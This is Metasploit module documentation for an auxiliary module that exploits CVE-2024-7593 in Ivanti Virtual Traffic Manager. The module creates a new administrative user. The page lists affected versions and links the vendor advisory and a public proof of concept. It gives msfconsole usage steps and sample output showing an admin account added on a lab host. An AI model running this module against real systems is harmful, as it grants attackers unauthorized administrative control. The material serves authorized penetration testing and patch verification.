 ## Vulnerable Application

This module exploits an access control issue in Ivanti Virtual Traffic Manager (vTM), by adding a new
administrative user to the web interface of the application.

Affected versions include:
* 22.7R1
* 22.6R1
* 22.5R1
* 22.3R2
* 22.3
* 22.2

The vendor published an advisory [here]
(https://forums.ivanti.com/s/article/Security-Advisory-Ivanti-Virtual-Traffic-Manager-vTM-CVE-2024-7593?language=en_US).

A proof-of-concept is available [here](https://packetstormsecurity.com/files/179906).

## Testing

Docker images with the software are available from [here](https://hubgw.docker.com/r/pulsesecure/vtm).

**Successfully tested on**

- 22.7R1 on Ubuntu 20.04.6 LTS
- 22.6R1 on Ubuntu 20.04.6 LTS
- 22.5R1 on Ubuntu 20.04.6 LTS
- 22.3R1 on Ubuntu 20.04.5 LTS
- 22.2 on Ubuntu 20.04.4 LTS

## Verification Steps

1. Deploy Ivanti Virtual Traffic Manager (vTM)
2. Start `msfconsole`
3. `use auxiliary/admin/http/ivanti_vtm_admin`
4. `set RHOSTS <IP>`
5. `run`
6. A new admin user should have been added to the web interface.

## Options

### NEW_USERNAME
Username to be used when creating a new user with admin privileges.

### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

## Scenarios

Running the module against Virtual Traffic Manager (vTM) 22.7R1 should result in an output
similar to the following:

```
msf > use auxiliary/admin/http/ivanti_vtm_admin 
msf auxiliary(admin/http/ivanti_vtm_admin) > set RHOSTS 172.17.0.2
msf auxiliary(admin/http/ivanti_vtm_admin) > exploit 
[*] Running module against 172.17.0.2

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 22.7R1
[+] New admin user was successfully added:
	h4x0r:w00Tw00T!
[+] Login at: https://172.17.0.2:9090/apps/zxtm/login.cgi
[*] Auxiliary module execution completed
```
